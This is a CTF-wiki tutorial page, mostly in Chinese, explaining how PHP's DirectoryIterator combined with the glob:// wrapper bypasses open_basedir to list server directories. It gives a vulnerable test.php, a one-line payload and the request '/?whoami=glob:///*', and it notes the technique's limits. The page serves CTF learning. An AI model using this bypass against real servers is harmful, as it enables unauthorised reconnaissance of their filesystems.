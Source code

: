 # DirectoryIterator
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/).



提供了一个用于查看文件系统目录内容的简单接口，该类是在 PHP 5 中增加的一个类。


DirectoryIterator与glob://协议结合将无视open_basedir对目录的限制，可以用来列举出指定目录下的文件。


```plain
test.php<?php$dir = $_GET['whoami'];$a = new DirectoryIterator($dir);foreach($a as $f)    {     echo($f->__toString().'<br>');}?>    # payload一句话的形式:$a = new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}?>
Plain Text
```



我们输入`/?whoami=glob:///*`即可列出根目录下的文件：但是会发现只能列根目录和open_basedir指定的目录的文件，不能列出除前面的目录以外的目录中的文件，且不能读取文件内容。


但是经过积累，还是有类能够读到文件（见其他）


